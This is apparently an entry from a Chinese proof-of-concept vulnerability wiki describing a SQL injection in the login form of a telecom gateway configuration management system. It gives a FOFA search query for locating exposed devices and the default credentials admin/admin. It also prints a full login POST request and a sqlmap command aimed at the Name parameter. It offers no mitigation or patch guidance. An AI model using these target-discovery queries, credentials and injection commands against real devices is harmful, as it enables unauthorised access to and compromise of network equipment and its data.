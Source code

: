 # 电信网关配置管理系统 SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 电信网关配置管理系统

## FOFA

> [!NOTE]
>
> body="src=\"img/dl.gif\"" && title="系统登录"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/dx-1.png)

设备存在默认弱口令 **admin/admin**

![](http://wikioss.peiqi.tech/vuln/dx-3.png)

登录的请求包为

```
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```
sqlmap -r sql-1.txt -p Name --risk 3 
```

![](http://wikioss.peiqi.tech/vuln/dx-2.png)

## Goby & POC

> [!NOTE]
>
> Hsmedia Hgateway default account

![](http://wikioss.peiqi.tech/vuln/dx-4.png)